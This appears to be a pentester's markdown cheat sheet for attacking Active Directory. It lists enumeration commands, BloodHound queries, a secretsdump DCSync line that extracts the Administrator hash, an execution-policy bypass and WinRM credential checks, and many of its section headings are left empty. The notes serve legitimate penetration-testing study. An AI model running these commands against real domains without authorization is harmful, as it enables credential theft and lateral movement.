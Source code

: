 # Enumeration

## Some tips:
In order to execute some powershell scripts:
```
powershell -ep bypass
```

About users (script for getting users)

## Manual

Windapsearch form anonymous binds:
```
./windapsearch.py -d domain.com --dc-ip $rhost -U
```

### Enumerate Users
```
impacket-GetADUsers domain.com -dc-ip $rhost -debug
```

[Username anarchy - Tool for generating usernames when pentesting.](https://github.com/urbanadventurer/username-anarchy)

If you have only users, you should try **AS-REP Roasting**.

Enumerate Local Accounts on the machine:
```
net user /domain
```

Checking admin account:
```
net user admin /domain
```

Enumerate roups:
```
net group /domain
```

Get information about Sales Department
```
net group "Sales Department" /domain
```

### Operating System

### Permissions and Logged on Users

### Enumeration Through Service Principal Names

### Enumerating Object Permissions

### Enumerating Domain Shares

## Automatic

### BloodHound

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

#### Raw Queries

Return Computers:
```
MATCH (m:Computer) RETURN m
```

Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking


![](img/kerberos_auth.jpg)

## Password Attacks

## AS-REP Roasting

## Kerberoasting

## Silver Tickets

## Domain Controller Synchronization

With impacket:
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

with mimikatz:


# Lateral Movement

How to create a PSCredential:
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```
## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

impacket-psexec
## Pass the Hash

## Overpass the Hash

## Pass the Ticket

## DCOM

# Persistance

## Golden Ticket

## Shadow Ticket
